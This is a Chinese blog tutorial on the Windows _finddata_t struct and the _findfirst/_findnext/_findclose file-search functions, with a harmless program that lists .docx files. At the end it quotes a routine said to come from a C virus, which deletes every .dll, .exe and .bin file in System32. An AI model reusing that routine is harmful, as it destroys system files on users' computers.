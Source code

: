 ## [_finddata_t结构体用法](https://blog.csdn.net/wangqingchuan92/article/details/77979669)
Struct _finddata_t是用来存储文件各种信息的结构体，使用这个结构体要引用的头文件为“ #include <io.h>”它的结构体定义如下：
```cpp
struct _finddata_t
{
      unsigned attrib;
      time_t time_create;
      time_t time_access;
      time_t time_write;
      _fsize_t size;
      char name[_MAX_FNAME];
;
```
该结构体中各成员的变量的含义如下：
unsigned atrrib：文件属性的存储位置。它存储一个unsigned单元，用于表示文件的属性。文件属性是用位表示的，主要有以下一些：_A_ARCH（存档）、 _A_HIDDEN（隐藏）、_A_NORMAL（正常）、_A_RDONLY（只读）、_A_SUBDIR（文件夹）、_A_SYSTEM（系统）。这些都是在中定义的宏，可以直接使用，而本身的意义其实是一个无符号整型（只不过这个整型应该是2的几次幂，从而保证只有一位为 1，而其他位为0）。既然是位表示，那么当一个文件有多个属性时，它往往是通过位或的方式，来得到几个属性的综合。例如只读+隐藏+系统属性，应该为：_A_HIDDEN | _A_RDONLY | _A_SYSTEM 。

time_t time_create：这里的time_t是一个变量类型，实际上就是长整形变量 long int，用来保存从1970年1月1日0时0分0秒到现在时刻的秒数

time_t time_access：文件最后一次被访问的时间。

time_t time_write：文件最后一次被修改的时间。

_fsize_t size：文件的大小（字节数表示）。

char name[_MAX_FNAME]：文件的文件名。这里的_MAX_FNAME是一个常量宏，它在头文件中被定义，表示的是文件名的最大长度。

如何使用这个结构体才能够将文件的信息存储到该结构体的内存空间呢，这就需要_findfirst（）、_findnext（）和_fineclose（）三个函数的搭配使用，下面介绍这三个函数：

 

 

long _findfirst( char *filespec, struct _finddata_t *fileinfo )；

        返回值：如果查找成功的话，将返回一个long型的唯一的查找用的句柄。这个句柄将会在_findnext函数中被使用。失败返回-1.

        参数：

        filespec：标明文件的字符串，可支持通配符。比如：*.c，则表示当前文件夹下的所有后缀为C的文件。

        fileinfo ：这里就是用来存放文件信息的结构体的指针。这个结构体必须在调用此函数前声明，不过不用初始化，只要分配了内存空间就可以了。函数成功后，函数会把找到的文件的信息放入这个结构体所分配的内存空间中。

int _findnext( long handle, struct _finddata_t *fileinfo );

        返回值：若成功返回0，否则返回-1。

        参数：

         handle：即由_findfirst函数返回回来的句柄。

         fileinfo：文件信息结构体的指针。找到文件后，函数将该文件信息放入此结构体中。

int _findclose( long handle );

         返回值：成功返回0，失败返回-1。

         参数：

          handle ：_findfirst函数返回回来的句柄。

该结构体和搭配的函数使用的逻辑就是先用_findfirst查找第一个文件，若成功则用返回的句柄，调用_findnext函数查找其他的文件，当查找完毕后用，用_findclose函数结束查找。下面我们就按照这样的思路来编写一个查找某一个文件夹下的所有word文档的程序。

现在在E盘建立一个文件夹名叫“Test”，在该文件夹内，建立四个word文件和文本文件，如下图：
然后打开visual 2010 新建工程，输入如下代码：
```cpp
#include<stdio.h>
#include<io.h>
#include<Windows.h>
 
#define ADDR "E://Test//*.docx"
 
const char* SreachAddr=ADDR;
 
int main(void)
{
	long Handle;
	struct _finddata_t FileInfo;
	Handle=_findfirst(SreachAddr,&FileInfo);
	if(-1==Handle)
		return -1;
	printf("%s\n",FileInfo.name);
	while(!_findnext(Handle,&FileInfo))
	{
		printf("%s\n",FileInfo.name);
	}
	_findclose(Handle);
	system("pause");
  
	return 0;
}
```
编译运行，结果如下：

 



当然，在找到所有需要的文件后，不仅仅可以通过终端打印出来，还可以进行删除、改名等操作。一般的C语言病毒会用到这个结构体加配合函数进行找到某一类型的文件然后进行恶意删除，例如某一C语言病毒中的删除操作代码如下：
```cpp
void Remove()
{
  int done;
   int i;
 
   struct _finddata_t ffblk;
   char *documenttype[3] = {"C://Windows//System32//*.dll","C://Windows//System32//*.exe","C://Windows//System32//*.bin"};
   for (i = 0; i < 3; i++)
   {
     done = _findfirst(documenttype[i],&ffblk);    
     remove(ffblk.name);
 
     while (!_findnext(done,&ffblk))
     {
         remove(ffblk.name);
     }
     _findclose(done);
   }
 
}    
```
参考资料：
1.[http://blog.csdn.net/yang332233/article/details/53081785](http://blog.csdn.net/yang332233/article/details/53081785)
2.[http://blog.csdn.net/wzhwho/article/details/6372353](http://blog.csdn.net/wzhwho/article/details/6372353)
